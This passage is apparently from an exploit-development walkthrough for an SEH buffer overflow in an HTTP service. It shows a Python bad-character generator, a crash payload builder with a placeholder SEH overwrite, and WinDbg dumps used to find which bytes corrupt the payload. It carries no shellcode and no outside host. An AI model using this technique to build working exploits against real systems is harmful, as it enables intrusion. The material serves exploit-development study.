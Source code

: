 Real quick though, test for badchars.  I have a function I built for that:

```python
badchars = ""
def gen_badchars(bc, start="\x01", end="\xff"):
	s_int = ord(start)
	e_int = ord(end)+1
	BC = bytearray(range(s_int,e_int)).decode('latin-1')
	for item in bc:
		BC = BC.replace(item,'')
	return BC
```

I use the above function and variable for massaging out badchars, by creating a string containing all bytes within a certain range.  I typically just start out with null to -1 as the range, but sometime I'd know beforehand about certain badchars, in this case I have no clue. 

```python
    total_len = 3908
    crash_len = 664
    head = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
    sled1 = ("\x40" * crash_len)
    SEH = ("\x41" * 4)
    bad = gen_badchars(badchars, start="\x00", end="\xff")
    tail = ("\x42" * (total_len - sum([len(x) for x in [
        head,
        sled1,
        SEH,
        bad
    ]])))
    buf = f"{head}{sled1}{SEH}{bad}{tail}"
```

Null is for sure bad. 
```sh
0:003> !exchain
009ff8e4: rainbow+a040 (0040a040)
009ff924: rainbow+a040 (0040a040)
009ffbe4: 41414141
Invalid exception stack at 40404040
0:003> db 0x009ffbe4 L0n256
009ffbe4  40 40 40 40 41 41 41 41-05 00 00 00 f0 fe 9f 00  @@@@AAAA........
009ffbf4  b3 26 40 00 28 60 6d 00-b8 60 6d 00 b8 60 6d 00  .&@.(`m..`m..`m
```

So I add `\x00` to the badchars var above the `gen_badchars` function, rinse and repeat.

This time I had to go hunting for it a little bit, alignment was thrown off.
```sh
0:003> db 0x00a0fbe4-0x2b0 L0n280
00a0f934  a3 2b 40 00 50 f9 a0 00-b8 b3 40 00 b8 8c 62 00  .+@.P.....@...b.
00a0f944  10 3d 61 00 c0 20 40 00-10 3d 61 00 0b 0c 0d 0e  .=a.. @..=a.....
00a0f954  0f 10 11 12 13 14 15 16-17 18 19 1a 1b 1c 1d 1e  ................
00a0f964  1f 20 21 22 23 24 25 26-27 28 29 2a 2b 2c 2d 2e  . !"#$%&'()*+,-.
00a0f974  2f 30 31 32 33 34 35 36-37 38 39 3a 3b 3c 3d 3e  /0123456789:;<=>
00a0f984  3f 40 41 42 43 44 45 46-47 48 49 4a 4b 4c 4d 4e  ?@ABCDEFGHIJKLMN
00a0f994  4f 50 51 52 53 54 55 56-57 58 59 5a 5b 5c 5d 5e  OPQRSTUVWXYZ[\]^
00a0f9a4  5f 60 61 62 63 64 65 66-67 68 69 6a 6b 6c 6d 6e  _`abcdefghijklmn
00a0f9b4  6f 70 71 72 73 74 75 76-77 78 79 7a 7b 7c 7d 7e  opqrstuvwxyz{|}~
00a0f9c4  7f 80 81 82 83 84 85 86-87 88 89 8a 8b 8c 8d 8e  ................
00a0f9d4  8f 90 91 92 93 94 95 96-97 98 99 9a 9b 9c 9d 9e  ................
00a0f9e4  9f a0 a1 a2 a3 a4 a5 a6-a7 a8 a9 aa ab ac ad ae  ................
00a0f9f4  af b0 b1 b2 b3 b4 b5 b6-b7 b8 b9 ba bb bc bd be  ................
00a0fa04  bf c0 c1 c2 c3 c4 c5 c6-c7 c8 c9 ca cb cc cd ce  ................
00a0fa14  cf d0 d1 d2 d3 d4 d5 d6-d7 d8 d9 da db dc dd de  ................
00a0fa24  df e0 e1 e2 e3 e4 e5 e6-e7 e8 e9 ea eb ec ed ee  ................
00a0fa34  ef f0 f1 f2 f3 f4 f5 f6-f7 f8 f9 fa fb fc fd fe  ................
00a0fa44  ff 42 42 42 42 42 42 42                          .BBBBBBB
```